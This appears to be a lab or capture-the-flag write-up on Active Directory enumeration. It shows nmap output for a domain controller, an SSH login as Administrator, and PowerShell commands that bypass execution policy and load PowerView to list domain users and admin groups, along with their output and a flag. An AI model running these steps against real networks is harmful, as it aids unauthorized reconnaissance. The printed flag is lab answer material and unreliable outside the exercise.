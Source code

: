 ``` txt
|_  System_Time: 2021-09-16T19:34:08+00:00
| ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
| Not valid before: 2021-09-15T19:25:35
|_Not valid after:  2022-03-17T19:25:35
|_ssl-date: 2021-09-16T19:34:19+00:00; +1s from scanner time.
Service Info: Host: DOMAIN-CONTROLL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-09-16T19:34:10
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.30 seconds
```

Login with SSH using the given credentials: `ssh -l Administrator@CONTROLLER 10.10.225.31`

``` ps1
powershell -ep bypass
. .\Downloads\PowerView.ps1
Get-NetUser | select cn
Get-NetGroup -GroupName *admin*
```

"Get-NetUser" output

``` txt
cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd
```

"Get-NetGroup" output

``` txt
Administrators
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```
